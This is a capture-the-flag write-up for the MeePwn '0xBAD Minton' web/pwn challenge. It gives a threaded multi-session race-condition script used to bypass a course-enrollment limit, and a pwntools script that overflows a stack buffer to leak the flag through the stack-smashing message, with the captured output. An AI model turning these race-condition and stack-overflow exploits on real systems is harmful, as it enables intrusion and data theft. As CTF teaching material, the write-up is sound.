 # 0xBAD Minton (web/pwn, 14 solved, 740p)

## Web part

First part of the task is on the Web side.
We get access to some webpage where we can register, and sign-up for 0-3 "courses".
There is really nothing more, no SQLi in forms or anything else.

In the root of the page we get access to some interesting files:

- [backend server binary](backend_server)
- Todo note `Quickly complete netcat client version on 178.128.84.72:9997`

We can connect via netcat to given endpoint, and the binary we just found is actually listening there for connections.
Once we reverse engineer the binary a bit, we come to the conclusion, that we could exploit it, if we manage to sign-up for more than 3 courses.
This has to be done on the web side.

We thought that maybe a simple race condition will work, but it didn't.
Then we tried to do race condition, with multiple sessions, and it worked just fine.

We create 2 different user session on the webpage.
Then we try to add courses from both of them at the same time:

```python
import threading
import requests
from queue import Queue

max = 100
threads = Queue()
init_barrier = threading.Barrier(max * 2)


def enroll(cookie):
    threads.get()
    init_barrier.wait()
    url = "http://178.128.84.72/login.php?action=enroll"
    print(requests.get(url, cookies={"PHPSESSID": cookie}).text)
    threads.task_done()


def worker2(index):
    enroll("33hoabtfv6t8amoovlrjecqun5")


def worker(index):
    enroll("qq5kqe8lbeim1md44m2bnuajr4")


def main():
    for i in range(max):
        thread = threading.Thread(target=worker, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max):
        thread = threading.Thread(target=worker2, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max * 2):
        threads.put(i)
    threads.join()


main()
```

We go with 2 sessions, and 100 threads each.
After we run this, we get user with 6 courses, which is enough to exploit the binary.

## Pwn part

Now to explain why we needed more than 3 sessions.

The serwer allows us to load our user from mysql database using a token then input our courses names and print them.

![example.png](example.png)

To do so, it allocates 3080 bytes on the stack:

``` c++
char s[3080]; // [rsp+290h] [rbp-C10h]

 ...
if ( courses_num )
{
    for ( j = 0; j < courses_num; ++j )
    {
      printf("#%d Oh I heard that you already enrolled a course\n", j);
      v3 = &s[1024 * (signed __int64)(signed int)j];
      printf("What is the course name?> ");
      read(0, v3, 1024uLL);
    }
}
```

Now that we have more courses than space on stack we can try to overwrite some of the stack!

The flag is already read into a global variable for us, cool!
``` c++
int read_flag()
{
  int buf_4; // ST34_4

  alarm(0x14u);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  chdir((const char *)(unsigned int)"/home/badminton/");
  buf_4 = open((const char *)(unsigned int)"flag", 0);
  read(buf_4, (void *)(unsigned int)&unk_604070, 0x40uLL);
  return close(buf_4);
}
```

Unfortunately there are no pointers on stack that are printed further in the execution so we'll have to come up with something else.

![checksec.png](checksec.png)

Maybe we can use the stack cookie to our advantage?

https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/pwn/readme-200

By overwriting the pointers in argv and triggering stack smashing we could leak the flag as the programs name, let's try it out!

``` python
from pwn import *
context.log_level = 'debug'

token = '0010318d0edf64b4a79634c005aac0244bc794f0014cbe89fd6356807a806509'

r = remote('178.128.84.72', 9997)

print(r.recvuntil('Token>'))

r.send(token + '\n')

for i in range(3):
    print(r.recvuntil('What is the course name?>'))
    r.send("Bzorp")

for i in range(3):
    r.recvuntil('What is the course name?>')
    r.send(p64(0x0000000000604070)*(1024 / 8))

r.interactive()
``` 

We're just basically hammering the whole stack with the flag's address.

```
----------------BADMINTON TRAINING----------------
1. Push-up
2. Running
3. Give up
> $ 3
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x61 bytes:
    '*** stack smashing detected ***: MeePwnCTF{web+pwn+oldschool+stuff+stack+terminated}\n'
    ' terminated\n'
*** stack smashing detected ***: MeePwnCTF{web+pwn+oldschool+stuff+stack+terminated}
 terminated
[*] Got EOF while reading in interactive
```

It worked!

